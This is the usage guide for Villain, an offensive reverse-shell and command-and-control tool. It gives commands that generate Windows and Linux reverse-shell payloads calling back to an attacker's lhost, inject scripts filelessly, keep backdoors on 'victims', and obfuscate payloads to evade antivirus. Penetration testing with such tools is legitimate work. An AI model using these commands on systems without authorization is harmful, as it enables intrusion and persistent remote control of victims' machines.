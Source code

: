 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out Villain's introduction on youtube for more info.

There’s no up-to-date presentation of Villain with its latest features, but these videos give a good overview of its functionality:
[2022-11-30] [John Hammond](https://github.com/JohnHammond) showcased the tool in this incredible video -> [youtube.com/watch?v=pTUggbSCqA0](https://www.youtube.com/watch?v=pTUggbSCqA0)  
[2023-03-30] Latest release demo, made by me -> [youtube.com/watch?v=NqZEmBsLCvQ](https://www.youtube.com/watch?v=HR1KM8wrSV8)  

**Disclaimer**: Using this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Table of contents
1. [News](#News)
2. [Generate Reverse Shell Commands](#Generate-Reverse-Shell-Commands)
3. [Connect With Sibling Server](#Connect-With-Sibling-Server)
4. [Shell](#shell)
5. [Upload Command](#upload)
6. [Conptyshell](#Conptyshell)
7. [Exec](#Exec)
8. [Flee](#Flee)
9. [Purge](#Purge)
10. [Chat with Sibling Servers](#Chat-with-Sibling-Servers)
11. [Session Defender](#Session-Defender)

## News

### 2023-08-03 Update log
- HoaxShell implants are now reusable as long as they were generated by the Villain instance you are trying to connect back to from the victim (Legit session data is saved on disk and is loaded into memory every time you start Villain on your machine). Villain will also re-establish a session if it receives beacons from it (e.g., because the payload is still running on a victim from a past session).
- You can use the new prompt command `flee` to exit Villain without terminating active sessions. That way, next time you start it, if there are alive beacons from victims, sessions will be re-established.
- The `--insecure` option was added which will allow sibling servers to connect to your instance without approval.
- Added a filter for random socket connections to Villain's TCP multi-listener that should prevent establishing junk sessions.
- Fixed an issue regarding the sessions table that could break because of junk TCP sessions.
- Added the `purge` prompt command to delete all session related metadata stored on disk.

### 2023-03-31 Update log
- The Payload Generator class was redesigned to work by dynamically engaging payload templates with a standard structure. This makes payload generation much easier and allows users to edit the default payload templates or add their own, according to their needs & tactics. As you'll notice, most of the default templates I've added for both Windows and Linux are designed to start as new processes.
- The stability and general functionality of the pseudo-shell prompt ("shell" command) has been significantly improved.
- The "upload" and "conptyshell" commands were added.
- A new chat feature was added (you can broadcast messages to all siblings by starting a command with "#").
- The "exec" command is also improved but still kind of unstable. Someday it's gonna be doing wonders. Have a little faith.


## Generate Reverse Shell Commands
Use the `generate` prompt command to generate payloads for Windows / Linux machines. 
In the latest Villain release, this function was redesigned to use payload templates (files). In `Core/payload_templates/<OS>/<HANDLER>/` you can find these templates, edit them, make your own, etc. Ultimately, you should replace the predefined Windows reverse shell commands with obfuscated versions. That way you can create a personalized instance of Villain and deal with AV evasion in a more productive and efficient way. Here's how 📽️ -> [youtube.com/watch?v=grSBdZdUya0](https://www.youtube.com/watch?v=grSBdZdUya0)  

Main logic:
```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

Usage examples:
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode
generate payload=linux/hoaxshell/sh_curl lhost=eth0
```

- The ENCODE and OBFUSCATE keywords are enabled for certain templates and can be used during payload generation. 
- For info on a particular template, use "generate" with PAYLOAD being the only provided argument.
- To catch HoaxShell https-based reverse shells you need to start Villain with SSL.
- Ultimately, one should edit the templates and add obfuscated versions of the commands for AV 
  evasion.

⚡Reverse TCP based shells are more stable and reliable than HoaxShell.
⚠️HoaxShell payloads are not reusable (will work only once). I will probably change that in the future.

Use the prompt commands `backdoors` and `sessions` to list info about your active shell sessions.

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your shell sessions with another machine running Villain. 
```
connect <IP> <TEAM SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The shell Command
Use the `shell` prompt command to start an interactive pseudo-shell for a shell session. The effectiveness of the pseudo shell is going to vary depending on the quality and stability of the shell session. Again, you should prefer TCP socket based shells as they will always be more stable than HoaxShell.
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Villain prompt.

## Upload
Use the `upload` pseudo shell prompt command to transfer a file from your system into an active session. The file will be http requested automatically from the Http File Smuggler (running by default on port 8888). The feature works regardless if the session is owned by you or a sibling server.

From an active pseudo shell prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH>
```

## Conptyshell
Use the `conptyshell` prompt command to automatically slap `Invoke-ConPtyShell.ps1` against a shell session. A new terminal window with netcat listening will pop up (you need to have gnome-terminal installed) and the script will be executed on the target as a new process, meaning you get a fully interactive shell AND you get to keep your backdoor. Currently works only for powershell.exe backdoors.
Because I love Invoke-ConPtyShell.

Usage: 
```
conptyshell <IP or INTERFACE> <PORT> <SESSION ID or ALIAS>
```

## Inject
Use the `inject` pseudo shell prompt command to fileless exec a local script file over http against an active session. Files are executed by being http requested from the Http File Smuggler. The script you execute should much the shell session type (e.g., a PowerShell script script should be executed against a powershell.exe session, etc).  

Usage: 
```
inject </path/to/local/file> 
```

## Flee
Use the `flee` prompt command to exit Villain without terminating any active sessions. If you start Villain again later and there are still victim machines sending HoaxShell beacons, the sessions will be re-established automatically.  

## Purge
Villain automatically stores information regarding generated implants and loads them in memory every time it starts. This way, HoaxShell generated implants become reusable and it is possible to re-establish older sessions, assuming the payload is still running on the victim(s). Use the `purge` prompt command to delete all session related metadata. It does not affect any active sessions you may have.

## Chat with Sibling Servers
Commands starting with "#" are interpreted as messages and will be broadcasted to all connected Sibling Servers.

## Session Defender
Villain has a function that inspects user issued shell commands for input that may cause a backdoor shell session to hang (e.g., unclosed single/double quotes or backticks, commands that may start a new interactive session within the current shell and more). Use the `cmdinspector` command to turn that feature on/off.  

Usage: 
```
cmdinspector <ON/OFF>
```

